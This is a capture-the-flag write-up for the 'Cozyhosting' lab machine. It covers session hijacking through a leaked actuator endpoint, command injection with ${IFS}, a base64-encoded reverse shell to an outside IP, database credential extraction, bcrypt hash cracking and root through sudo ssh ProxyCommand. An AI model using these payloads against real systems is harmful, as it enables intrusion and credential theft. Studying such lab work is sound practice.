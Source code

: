 # 3.Cozyhosting

```
# Nmap 7.94 scan initiated Fri Oct 20 16:08:22 2023 as: nmap -sC -sV -p- -Pn -oN nmap_full.txt cozyhosting.htb
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 16:08:36 2023 -- 1 IP address (1 host up) scanned in 13.95 seconds

```

## User

Session Hijacking

Using feroxbuster we discovered an interesting file [http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions) which contains cookies for the session. We have a session for kanderson user with the cookie JSESSIONID.&#x20;

```
{"BB3AD2D84740C8682243207A393CBAF5":"kanderson"}
```

We can use it to connect to the login form with random value.&#x20;

We have a form which ask for a hostname and an username. If we intercept it with burpsuite, it's a POST request to /executessh. Tried with our ip :&#x20;

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

After few try the first feld hostname seems not to be injectable. But the second "username" seems to be. we remplace it by ";ls${IFS}/home" , ${IFS} is for bypassing forbidden spaces.

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cozyhosting.htb/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=7D06E33E40178E184AE16013FECBB459
Connection: close

host=127.0.0.1&username=%3Bls%24%7BIFS%7D%2Fhome
```

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Our command seems to be interpreted. So we could inject commands. After a few searches, we encoded a payload to base64.

```
2>/dev/null;echo${IFS}L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQ0IDA+JjE=|base64${IFS}-d|/bin/bash;
```

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Length: 168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cozyhosting.htb/admin?error=ls:%20cannot%20access%20%27/etc/passwd@127.0.0.1%27:%20No%20such%20file%20or%20directory
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=5765B3A882DBA662B0E677DE2EA2C1E6
Connection: close

host=127.0.0.1&username=2%3E%2Fdev%2Fnull%3Becho%24%7BIFS%7DL2Jpbi9zaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQ0IDA%2BJjE%3D%7Cbase64%24%7BIFS%7D-d%7C%2Fbin%2Fbash%3B
```

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We have josh user ine /home

```
$ ls /home
josh
```

## Root

We have a jar file:

```
app@cozyhosting:/app$ ls
ls
cloudhosting-0.0.1.jar
```

We found some interesting data inside:

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
application.properties

server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

We found postgres:Vg\&nvzAQ7XxR

We could try to connect to the database with psql tool

```
psql -h localhost -U postgres -d cozyhosting -p 5432
```

if we list databases with \d commands we have 4 databases, let's take a look at cyberhosting:

```
\c cozyhosting
list tables
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
 
 Select * from users;
    name    |                           password                           | role 
-----------+--------------------------------------------------------------+------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

we copied both hash and try to crack them with hashcat:

<pre><code>└─$ hashcat -h | grep -i bcrypt                                                                              
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
<strong>Did it with windows for GPU use. 
</strong><strong>.\hashcat.exe -D 2 -m 3200 .\hashe.txt .\rockyou.txt -r .\rules\best64.rule
</strong></code></pre>

```
kanderson:manchesterunited
```

We could not crack the hash for admin user, but we could ssh with josh found earlier.\
We checked sudo commands available with sudo -l and we could run ssh with sudo command.

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Accoding to GTFO.bin we can elevate our privilege with sudo ss

{% embed url="https://gtfobins.github.io/gtfobins/ssh/#sudo" %}

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
```
